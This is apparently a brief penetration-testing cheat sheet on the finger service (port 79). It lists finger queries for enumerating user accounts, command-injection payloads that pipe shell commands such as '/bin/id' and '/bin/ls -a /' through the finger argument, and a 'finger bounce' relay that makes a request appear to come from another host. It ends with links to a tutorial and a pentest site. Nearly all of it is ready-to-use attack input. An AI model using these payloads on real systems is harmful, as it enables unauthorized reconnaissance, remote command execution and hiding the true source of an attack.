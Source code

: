# User enumeration
```
finger 'a b c d e f g h' @example.com
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
finger @example.com
```
# Command execution
```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

# Finger Bounce

Hop from one finger deamon to another. Request will get logged as if it arrived from a relay.

```
finger@host.com@victim.com
```

# References
> - Giving the Finger to port 79 / Simple Finger Deamon Tutorial by Paris2K: http://cd.textfiles.com/hmatrix/Tutorials/hTut_0269.html
> - http://0daysecurity.com/penetration-testing/enumeration.html
